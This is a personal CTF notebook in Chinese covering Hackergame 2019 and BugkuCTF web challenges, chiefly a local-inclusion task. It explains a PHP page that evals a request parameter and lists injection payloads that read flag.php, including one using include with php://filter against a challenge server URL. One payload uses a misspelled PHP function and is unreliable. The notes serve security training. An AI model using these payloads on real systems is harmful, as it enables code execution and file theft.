 # CTF记录
---
开始时间 2019/10/17
## 示例类型
  ### 示例题目1 [xxxx(Doing), xxxxxx(Stuck)]
  思路什么的写在这里
  ```
  代码什么的贴在这里
  ```
  
  ### 示例题目2 [Solved][xxxxxx(Doing)]
  ```
  FLAG: flag{this_is_flag}
  ```
  思路什么的写在这里
  记得添点图片
  
  
------------
## hackergame 2019
### 信息安全2077
haha 第一题我就🕊了，不愧是我

## bugkuctf
### web4
打开之后看源码，1.是post，2.如果a不为undefined而且为67d709b2b54aa2aa648cf6e87a7114f1就返回！0，即真

--------
### 文件包含漏洞
#### 本地包含
进去后看到如下代码
 <?php
    include "flag.php";
    $a = @$_REQUEST['hello'];
    eval( "var_dump($a);");
    show_source(__FILE__);
?> 
代码解释：

a、include "flag.php" 他居然把我们想要的flag包含进来了，真是嘿嘿嘿嘿

b、$_request这个变量和$_GET、$_POST一样，都属于超级全局变量，但是呢，运行时修改后者不会影响前者，反之亦然

c、以get/post/cookies等方式把以hello为名的东西提交过来

d、eval函数把字符串当作命令直接执行

e、最后一句把本页代码以高亮语法显示出来

###### 解法1.利用eval
可以构造payload，有点像数据库注入 hello=1);show_source(%27flag.php%27);var_dump(3 把这个带到eval( "var_dump($a);");中就是
eval( "var_dump(1);show_source(%27flag.php%27);var_dump(3);");拆分成执行三条语句了 %27为单引号的ASCII
###### 解法2.直接将flag.php文件读入变量hello中

?hello=get_file_contents('flag.php')或
?hello=file('flag.php')
###### 解法3.利用php://filter + eval
http://120.24.86.145:8003/index.php?hello=1);include $_POST['f'];//  （把后面的括号注释掉）
在POST区域：f=php://filter/convert.base64-encode/resource=flag.php?
得到的结果base64解码即可 这个不懂可看下面的php：//filter妙用的链接
试着试着就崩了只用第1种得到了flag。。。

命令执行漏洞学习总结 https://www.jianshu.com/p/bf64c59b64e6
BugkuCTF-web-本地包含 https://blog.csdn.net/huangming1644/article/details/82818482
谈一谈php://filter的妙用 https://www.leavesongs.com/PENETRATION/php-filter-magic.html
